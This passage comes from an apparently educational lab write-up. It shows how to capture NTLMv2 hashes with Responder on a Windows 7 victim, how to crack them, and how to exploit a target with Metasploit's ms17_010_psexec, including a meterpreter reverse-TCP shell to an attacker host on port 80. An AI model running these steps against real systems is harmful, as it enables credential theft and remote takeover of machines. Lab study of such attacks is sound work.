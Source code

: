 * First install Responder
  * `git clone https://github.com/SpiderLabs/Responder.git`
  * `cd Responder/`

Next, run Responder on the attack machine.
We can do this by running the command: `Responder.py -I eth0 -wrFb`

![Setup Responder](EHC/img/responder/responder.png)

Once we have Responder running on our attack machine, we can navigate over to our Windows 7 victim machine (.201) and open up the File Explorer.
Once here we can click on the top toolbar and enter in ‘\\\\abc’ to simulate a user tying the wrong SMB server name.

![Improper DNS](EHC/img/responder/improper_dns.png)

Once the user types in the wrong server name, the DNS lookup fails and our attack begins.
Once we have pressed the ‘Enter’ key after typing this command in the toolbar, we can see our Kali Machine with Responder running in the background begins to execute its attack.
The only thing we are prompted to do is enter in a username and password on the Windows 7 machine, but it does not matter if we do or not because our attack has already taken place.

![Listening](EHC/img/responder/listening.png)

Navigating back over to our Kali Machine and into the ‘/usr/share/responder/logs/ directory we can see that we have generated a new file called ‘SMBv2-NTLMv2-SSP-192.168.150.201.txt’.
Looking at this file using the cat command, we can see that it contains a long hash. 
By using either <hashcat or John the Ripper, we can crack this hash to obtain the username and password of the system.

![Logs](EHC/img/responder/logs.png)

### 6. ms17_010_psexec

* Assuming we are already on a machine with Metasploit and that we already know who our target is, these are the steps to use ms17_010_psexec
* Open Metasploit
  * `msfconsole`
* Use the ms17_010_psexec exploit for our attack
  * `use exploit/windows/smb/ms17_010_psexec`
* Set the payload of your choice. We used the meterpreter reverse tcp shell
  * `set payload windows/x64/meterpreter/reverse_tcp`
* Set the target
  * `set RHOSTS 'TARGET'`
* Set the attackers address
  * `set LHOST 'Attacker Address'`
* Set the port to attack from, we use 80 because it is least likely to be blocked because of http traffic
  * `set LPORT 80`
* Run the attack
  * `run`

As you can see from the image below, it is very easy to use this attack:
